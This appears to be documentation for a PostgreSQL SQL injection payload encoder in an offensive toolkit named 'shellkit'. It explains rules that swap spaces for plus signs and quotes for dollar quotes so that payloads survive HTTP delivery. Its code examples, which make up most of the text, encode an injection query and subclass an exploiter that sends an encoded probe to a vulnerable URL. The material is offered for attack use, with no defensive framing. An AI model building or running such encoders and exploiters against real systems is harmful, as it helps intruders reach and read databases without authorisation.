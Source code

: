 # PostgreSQL HTTP Encoder Documentation

## Overview

The PostgreSQL HTTP Encoder is a specialized encoder designed for PostgreSQL SQL injection payloads. It implements specific encoding rules optimized for PostgreSQL syntax and HTTP transmission, particularly useful in blind SQL injection scenarios.

## Features

- Replaces spaces with plus signs (+)
- Replaces single quotes with PostgreSQL dollar quotes ($$)
- URL encodes special characters while preserving + and $
- Full support for PostgreSQL syntax
- Reversible encoding/decoding

## Basic Usage

```python
from shellkit.encoders.http.postgres_encoder import PostgresHTTPEncoder

# Initialize the encoder
encoder = PostgresHTTPEncoder()

# Basic encoding example
payload = "SELECT * FROM users WHERE name = 'admin'"
encoded = encoder.encode(payload)
print(f"Encoded: {encoded}")
# Output: SELECT+*+FROM+users+WHERE+name+=+$$admin$$

# Decode back to original
decoded = encoder.decode(encoded)
print(f"Decoded: {decoded}")
# Output: SELECT * FROM users WHERE name = 'admin'
```

## Integration with PostgreSQL Exploiter

```python
from shellkit.sql_injection import PostgresExploiter
from shellkit.encoders.http.postgres_encoder import PostgresHTTPEncoder

class CustomExploiter(PostgresExploiter):
    def __init__(self):
        super().__init__()
        self.encoder = PostgresHTTPEncoder()
    
    def test_injection(self, url: str):
        payload = "SELECT current_database()"
        encoded = self.encoder.encode(payload)
        return self._send_request(url + encoded)

# Usage
exploiter = CustomExploiter()
result = exploiter.test_injection("http://vulnerable.com/page.php?id=")
```
